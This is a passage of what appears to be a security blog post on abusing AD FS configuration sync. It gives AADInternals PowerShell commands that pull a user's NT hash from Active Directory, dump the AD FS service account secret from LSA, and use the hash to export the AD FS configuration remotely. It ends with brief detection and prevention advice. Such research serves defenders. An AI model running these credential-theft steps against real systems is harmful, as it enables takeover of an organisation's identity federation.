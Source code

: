 # Get the NTHash as hex string
Get-AADIntADUserNTHash -ObjectGuid "b6366885-73f0-4239-9cd9-4f44a0a7bc79" -Credentials $creds -Server dc.company.com -AsHex
{{< /highlight >}}
```
6e36047d34057fbb8a4e0ce8933c73cf
```

Another option to get NTHash is to get AD FS service account's password from AD FS server (requires local admin rights):
{{< highlight powershell >}}
# Get NTHash of the AD FS service account
Get-AADIntLSASecrets -AccountName sv_ADFS | Select-Object -ExpandProperty MD4Txt
{{< /highlight >}}
```
6e36047d34057fbb8a4e0ce8933c73cf
```

Finally, as we have all we need, we can get the configuration remotely:

{{< highlight powershell >}}
# Export configuration remotely and store to variable
$ADFSConfig = Export-AADIntADFSConfiguration -Hash "6e36047d34057fbb8a4e0ce8933c73cf" -SID "S-1-5-21-1332519571-494820645-211741994-8710" -Server sts.company.com
{{< /highlight >}}

**Note!** Getting configuration remotely **works also when using the full SQL for storing the configuration data**. In this scenario, there
are no primary or secondary servers because all servers are using a centralised database. 
As such, **there is no need for the AD FS sync and it should not be enabled at all**!
However, this how Microsoft designed AD FS, so there is nothing we can do about it 😞

### Detecting
AD FS configuration sync is not logged to anywhere. However, enabling AD FS Tracing, will record **event id 54**, which indicates a succesful authentication:

![AD FS tracing](/images/posts/ADFS_05.png)

If the authentication timestamp is out of normal sync times, or from "wrong" computer, an alert should be raised.

### Preventing
AD FS service requires that https traffic is allowed. Http traffic is only used by load balancers to probe whether the AD FS service is up or not:
```
http://<server>/ADFS/probe
```
As such, allowing http traffic only from other AD FS servers, proxies, and load balancers would reduce the attack surface.
